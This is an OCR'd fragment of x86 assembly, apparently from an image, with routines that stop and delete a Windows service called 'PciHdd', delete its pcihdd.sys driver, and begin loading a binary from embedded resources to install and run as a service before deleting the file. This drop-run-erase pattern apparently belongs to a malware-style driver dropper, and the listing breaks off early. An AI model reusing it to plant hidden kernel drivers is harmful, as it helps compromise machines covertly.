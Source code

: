 push  0F01FFh    ; dwDesiredAccess
push  offset ServiceName ; "PciHdd"
push  hSCManager ; hSCManager
call  OpenServiceA
or  eax, eax
jz  OpenServiceFail
mov  hSCObject, eax
lea  eax, ServiceStatus
push  eax    ; lpServiceStatus
push  1    ; dwControl
push  hSCObject  ; hService
call  ControlService

push  hSCObject  ; hService
call  DeleteService

push  hSCObject  ; hSCObject
call  CloseServiceHandle

OpenServiceFail:    ; hSCObject
push  hSCManager
call  CloseServiceHandle

OpenSCManagerFail:    ; nSize
push  100h
lea  eax, @FileName
push  eax    ; lpDst
push  offset Src  ; "%SystemRoot%\system32\drivers\pcihdd.sys"
call  ExpandEnvironmentStringsA

lea  eax, @FileName
push  eax    ; lpFileName
call  DeleteFileA
ret
QuitService endp

;**********************************************************************************************
;从资源中加载二进制内容写入文件，并将文件写入环境变量，然后启动服务，最后去掉环境变量，删除文件
;**********************************************************************************************
LoadServiceFromRes proc

LOCAL ServiceStatus
LOCAL hSCObject
LOCAL hSCManager
LOCAL nNumberOfBytesToWrite
LOCAL lpBuffer
LOCAL hResInfo
LOCAL @FileName[110h]:byte
LOCAL hObject
LOCAL NumberOfBytesWritten

push  3E9h    ; lpType
push  3E9h    ; lpName
push  hModule    ; hModule
call  FindResourceA
or  eax, eax
jz  failed
